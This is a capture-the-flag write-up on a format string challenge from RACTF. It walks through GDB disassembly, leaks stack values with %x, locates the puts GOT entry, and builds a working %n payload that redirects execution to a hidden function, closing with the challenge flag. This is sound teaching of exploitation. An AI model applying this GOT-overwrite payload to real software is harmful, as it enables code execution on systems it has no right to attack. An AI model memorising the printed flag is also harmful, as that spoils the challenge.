 ```yaml
---
title: Not Really AI - RA CTF 
date: '2020-06-08T07:22:58.064Z'
enableToc: false
description: "This is a Binary exploitaion challenge, based around a format string vulnerability."
tags:
- pwn
---
```


- Misusage of the libc `printf()` function can lead to serious information leakage and even code execution.
- when we pass one argument (for example `printf(foo)`) we can:
  - leak stack addresses using `%x` or `%p` format specifiers.
  - overwrite any pointer's value using `%n` specifier (note that we can't overwrite plain stack addresses as the %n format specifier can only overwrite by reference and not by value)

For more information on format strings please check [this awesome resource](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf)


## Analyzing the Binary
we fire up GDB and list all our functions:
```c
gef➤  info functions       
All defined functions: 
Non-debugging symbols:
0x08049000  _init
0x08049030  printf@plt
0x08049040  fgets@plt
0x08049050  getegid@plt
0x08049060  puts@plt
0x08049070  system@plt
0x08049080  __libc_start_main@plt
0x08049090  setvbuf@plt
0x080490a0  setresgid@plt
0x080490b0  _start
0x080490f0  _dl_relocate_static_pie
0x08049100  __x86.get_pc_thunk.bx
0x08049110  deregister_tm_clones
0x08049150  register_tm_clones
0x08049190  __do_global_dtors_aux
0x080491c0  frame_dummy
0x080491c2  response
0x08049245  flaggy
0x08049270  main
0x080492eb  __x86.get_pc_thunk.ax
0x080492f0  __libc_csu_init
0x08049350  __libc_csu_fini
0x08049351  __x86.get_pc_thunk.bp
0x08049358  _fini
```

we notice three non-standard functions above which are: 
```c
0x080491c2  response
0x08049245  flaggy
0x08049270  main
```
by inspecting the disassembly for these three functions we find out that:
- main function will call response function
- response function maybe vulnerable to a format string vulnerability (since there is a printf call)
- the flaggy function is a dead code, our goal is to call it.

so let's start by running some input on the binary, let's test with a couple of `%x`'s:
```
hegz@hegzbox:~/ractf/Not_Really_AI$ ./nra
How are you finding RACTF?
%x %x %x %x    
I am glad you
200 f7fb9580 80491d1 25207825

We hope you keep going!
```
bingo!
we can leak stack addresses.

## Exploitation
since this binary is vulnerable to a format strings attack, we can use the `%n` specifer to overwrite any pointer value on the stack.
But can we really overwrite the return address?
The answer is No, we can't do that since it is not a pointer, it's a value and we can't overwrite values on the stack using `%n`

Our approach to this challenge will be through overwriting the "Global Offset Table"...
to put it simply, the Global Offset Table is somewhere in the bss section of the binary where shared library functions are mapped to their addresses.
If we can overwrite one of these function addresses (for example `puts()` GOT address) then, when we want to execute this function (the `puts`) it will instead execute our arbitary function.

we check our vulnrable function for candiadtes:
```c
gef➤  disas response 
Dump of assembler code for function response:
   0x080491c2 <+0>:     push   ebp
   0x080491c3 <+1>:     mov    ebp,esp
   0x080491c5 <+3>:     push   ebx
   0x080491c6 <+4>:     sub    esp,0x204
   0x080491cc <+10>:    call   0x8049100 <__x86.get_pc_thunk.bx>
   0x080491d1 <+15>:    add    ebx,0x2e2f
   0x080491d7 <+21>:    sub    esp,0xc
   0x080491da <+24>:    lea    eax,[ebx-0x1ff8]
   0x080491e0 <+30>:    push   eax
   0x080491e1 <+31>:    call   0x8049060 <puts@plt>
   0x080491e6 <+36>:    add    esp,0x10
   0x080491e9 <+39>:    mov    eax,DWORD PTR [ebx-0x8]
   0x080491ef <+45>:    mov    eax,DWORD PTR [eax]
   0x080491f1 <+47>:    sub    esp,0x4
   0x080491f4 <+50>:    push   eax
   0x080491f5 <+51>:    push   0x200
   0x080491fa <+56>:    lea    eax,[ebp-0x208]
   0x08049200 <+62>:    push   eax
   0x08049201 <+63>:    call   0x8049040 <fgets@plt>
   0x08049206 <+68>:    add    esp,0x10
   0x08049209 <+71>:    sub    esp,0xc
   0x0804920c <+74>:    lea    eax,[ebx-0x1fdd]
   0x08049212 <+80>:    push   eax
   0x08049213 <+81>:    call   0x8049060 <puts@plt>
   0x08049218 <+86>:    add    esp,0x10
   0x0804921b <+89>:    sub    esp,0xc
   0x0804921e <+92>:    lea    eax,[ebp-0x208]
   0x08049224 <+98>:    push   eax
   0x08049225 <+99>:    call   0x8049030 <printf@plt>
   0x0804922a <+104>:   add    esp,0x10
   0x0804922d <+107>:   sub    esp,0xc
   0x08049230 <+110>:   lea    eax,[ebx-0x1fcf]
   0x08049236 <+116>:   push   eax
   0x08049237 <+117>:   call   0x8049060 <puts@plt>
   0x0804923c <+122>:   add    esp,0x10
   0x0804923f <+125>:   nop
   0x08049240 <+126>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x08049243 <+129>:   leave  
   0x08049244 <+130>:   ret    
End of assembler dump.
```
we see a `puts` call after the vulnerable `printf` function, that's our candiadte.
Alright, now it's time to collect all the pieces of the puzzle.

In order to start writing our exploit, we will need two pieces of information:
1. The memory address we are overwriting --> puts GOT address
2. The memory address we are overwriting with --> flaggy

to get the puts GOT address we can disassemble the puts address located at response<+117>:
```c
gef➤  disas 0x8049060
Dump of assembler code for function puts@plt:
   0x08049060 <+0>:     jmp    DWORD PTR ds:0x804c018
   0x08049066 <+6>:     push   0x18
   0x0804906b <+11>:    jmp    0x8049020
End of assembler dump.
```
then we examine the destination address of the jump instrcution above to make sure its the GOT address:
```c
gef➤  x 0x804c018
0x804c018 <puts@got.plt>:       0x08049066
```
and voila, `0x804c018` is our desired address!

now we need the flaggy function address:
```c
gef➤  x flaggy
0x8049245 <flaggy>:     0x53e58955
```
and our address is `0x8049245`
(note: don't confuse the address with its value, i.e: in the above snippet we have two hex numbers where `0x8049245` is the address/pointer and `0x53e58955` is the value of that pointer/address)

### Time to write our Exploit!

our exploit will look like this (Abstracted):
`[Address_of_puts][Address_of_flaggy][Address_of_puts entry number on the stack]`
let's dig a bit deeper into each of these parts:
___
1. `[Address_of_puts]:`
  this is the simplest of the three, and it's basically our GOT puts address which we obtained above, but encoded in little endian
  ```
  Address_of_puts = \x18\xc0\x04\x08 
  ```
  ___
2. `[Address_of_flaggy]:`
if we recall back, we mentioned that the %n specifier will write the printed character length to a specified pointer.
our goal here is to encode the Address of flaggy function as a padded address, for example we want to encode this address `0x8049245`
the format will be: `%(integer value of the address - 4)x` where the 4 is the length of the [Address_of_puts]
using any calculator or just python, we can calculate the integer value of any hex address:
```python
>>> int(0x8049245 - 4)
134517313
```
so our final payload will be: `%134517313x`
___
3. `[Address_of_puts entry number on the stack]:`
to calculate the offset of puts in our printf stack leak, we use an Egg i.e: AAAA, and follow it with some `%x`'s until we can locate it's offset.
```
hegz@hegzbox:~/ractf/Not_Really_AI$ ./nra 
How are you finding RACTF?
AAAA %x %x %x %x %x %x %x %x
I am glad you
AAAA 200 f7fb9580 80491d1 41414141 20782520 25207825 78252078 20782520
```
we see that our offset is the 4th entry after the egg, so our payload will be: `%x %x %x %n` or we can use the special feautre of printf `%4$n` which does the same thing.
___
full payload:
`\x18\xc0\x04\x08%134517313x%4$n`

we will use echo to print and pipe it to the binary (we also escape the $ and append a \x0a for a newline):
`echo -en \x18\xc0\x04\x08%134517313x%4\\$n\x0a | ./nra`
a lot of blank spaces will be printed, and eventually our flag...
`ractf{f0rmat_Str1nG_fuN}`

